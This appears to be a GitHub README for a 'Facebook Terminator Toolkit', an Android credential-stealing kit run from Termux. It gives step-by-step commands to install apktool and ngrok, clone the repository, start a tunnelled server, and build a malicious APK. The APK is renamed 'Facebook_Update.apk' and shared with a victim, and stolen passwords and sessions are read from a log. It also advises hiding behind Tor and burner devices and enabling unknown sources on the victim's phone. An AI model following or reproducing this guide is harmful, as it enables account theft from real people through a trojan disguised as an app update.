 # Facebook Terminator Toolkit 
**Steal Facebook sessions + passwords (rooted devices)**  

⚠️ **WARNING**: Illegal activity. Use Tor/VPN. Burner devices only.  

---

## 🔧 Installation Guide  

### 📲 **Termux Setup**  
1. Install Termux from **[F-Droid](https://f-droid.org/)** (*NOT Google Play*)  
2. Run these commands:  
```bash  
termux-setup-storage  
termux-change-repo  
pkg update -y  
pkg install git wget openjdk-17 unzip -y



### 1️⃣ Install APKTOOL  
```bash  
wget https://raw.githubusercontent.com/iBotPeaches/Apktool/master/scripts/linux/apktool  
wget https://bitbucket.org/iBotPeaches/apktool/downloads/apktool_2.9.3.jar  
mv apktool_2.9.3.jar apktool.jar  
chmod +x apktool*  
mv apktool* $PREFIX/bin  
```

### 2️⃣ Install Ngrok (For Tunneling)  
```bash  
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-arm.tgz  
tar xvf ngrok-v3-stable-linux-arm.tgz  
chmod +x ngrok  
mv ngrok $PREFIX/bin  
```

### 3️⃣ Android SDK Tools  
```bash  
pkg install aapt dx ecj -y  
```

### 4️⃣ Clone Repository  
```bash  
git clone https://github.com/Veran350/FB_TERMINATOR  
cd FB_TERMINATOR  
mkdir -p server apk_out  
```

---

## 🚀 **Usage**  

### 1️⃣ Prepare Scripts  
```bash  
chmod +x termux/*  
```

### 2️⃣ Start Server & Ngrok  
```bash  
./termux/SERVER_KILLER.sh  
```  
*Wait for Ngrok URL to appear (e.g., `https://abcd.ngrok.io`)*  

### 3️⃣ Build Malicious APK  
```bash  
./termux/AUTO_DEPLOY.sh  
```  
*APK will be in: `apk_out/FB_Signed.apk`*  

### 4️⃣ Share APK with Victim  
```bash  
cp apk_out/FB_Signed.apk /sdcard/Download/Facebook_Update.apk  
```

---

## 📁 **Stolen Data**  
View stolen credentials:  
```bash  
cat server/stolen_data.log  
```

---

## ❓ **FAQ**  
**Q:** Getting "Package not found" errors?  
**A:** Run `termux-change-repo` and select "Mirrors by Grimler"  

**Q:** Ngrok not working?  
**A:** Get auth token from [ngrok.com](https://dashboard.ngrok.com/get-started/your-authtoken) → Run `ngrok config add-authtoken YOUR_TOKEN`  

**Q:** APK fails to install?  
**A:** Enable "Unknown Sources" in victim's phone settings  

---

**⚠️ DISCLAIMER**: This tool is for educational purposes only. I take NO responsibility for your actions.  
``` 
